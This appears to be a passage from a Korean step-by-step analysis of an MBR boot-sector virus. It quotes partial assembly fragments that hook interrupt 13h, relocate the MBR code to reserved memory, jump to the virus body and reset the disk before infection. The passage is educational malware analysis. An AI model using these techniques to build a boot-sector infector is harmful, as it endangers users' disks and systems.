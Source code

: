 **⭐ STEP 5**  
인터럽트 주소를 후킹한다. 후킹된 인터럽트 13은 확보된 공간을 가리키지만 현재 해당 공간에는 아무런 조치를 취하지 않았다. 이는 순서가 잘못되었지만 이 코드에서는 중간에 인터럽트 13을 호출하는 로직이 없기 때문에 오류는 없다.
``` asm
entervirus:
            ...
		mov     ax,offset int13h
		mov     ds:[13h*4],ax
		mov     ds:[13h*4+2],es
```
* ax에 새 인터럽트의 오프셋을 저장한다
* 인터럽트 테이블의 13번의 주소에 오프셋을 저장한다.
* 인터럽트 테이블의 13번의 주소에 세그먼트를 저장한다.  
(확보된 공간. STEP4 참고.)

**⭐ STEP 6**  
MBR의 코드영역을 확보된 공간에 복사한다. 새로운 인터럽트가 기능이 가능하게되며, 추후 코드 실행 위치가 이 확보된 공간으로 넘어간다.
``` asm
entervirus:
            ...
		mov     cx,offset partitioninfo
		mov     si,7C00h
		xor     di,di
		cld
		rep     movsb
```
* cx에 MBR의 파티션 데이터 상대주소를 저장한다.
* si에 메모리 MBR의 오프셋을 넣는다.
* di를 초기화 한다.
* cld를 통해  Direction 플래그를 초기화한다.(인덱스 레지스터 설정 = 증가)
* movsb를 반복하여 MBR 코드영역(파티션 데이터 전까지)을 확보한 공간으로 옮긴다.


**⭐ STEP 7**  
바이러스 코드를 백업했으니, 현재 MBR을 사용하지 않는다면 MBR 정보를 마음대로 바꿀  수 있게 된다. 다음은 악성코드로 실행 위치를 옮겨 다음 작업을 수행하게된다.
``` asm
entervirus:
            ...
		jmp     dword ptr cs:[7C00h+offset highmemjmp]
```
* 악성코드가 존재하는 위치로 점프한다.

**⭐ STEP 8**  
여기서부터는 확보된 공간에서 수행되는 명령들이다. 본격적인 확인 및 감염 동작이 시작된다. 아래 코드는 디스크에 접근하기 위한 초기화 과정이다.
``` asm
entervirus:
			...
		xor     ax,ax
		mov     es,ax
		int     13h
```
* 인터럽트 0번 함수를 호출하기 위해 ax를 초기화한다.
* es를 초기화해서 세그먼트 0을 가리키게 한다.(step 9에서 사용)
* 인터럽트 13번의 0번 함수가 호출되어 디바이스에 접근할 수 있도록 초기화한다.
